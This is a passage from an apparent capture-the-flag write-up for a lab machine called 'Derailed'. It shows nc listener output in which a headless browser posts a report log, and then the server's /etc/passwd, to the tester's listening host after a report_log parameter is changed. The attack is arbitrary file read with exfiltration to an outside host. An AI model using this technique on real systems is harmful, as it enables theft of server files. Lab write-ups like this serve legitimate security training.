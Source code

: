 After saving this, I resubmit the report, and the file reaches my `nc` server on port 9001, along with a log file displaying the note's ID and the associated complaint.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001  
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 45642
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 41
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

112,test
117,a
117,a
117,
117,
117,
117,
```

It's possible that it's attempting to open a file called `report_19_07_2023.log`. I change my payload to read another file, like `/etc/passwd`. I just update the report\_log parameter in the request, and when I submit the report again, passwd is sent to `nc`.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 56576
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 2084
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

root:x:0:0:root:/root:/bin/bash
...
openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
systemd-timesync:x:994:994:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:993:993:systemd Core Dumper:/:/usr/sbin/nologin
rails:x:1000:100::/home/rails:/bin/bash
_laurel:x:996:992::/var/log/laurel:/bin/false
marcus:x:1001:1002:,,,:/home/marcus:/bin/bash
```
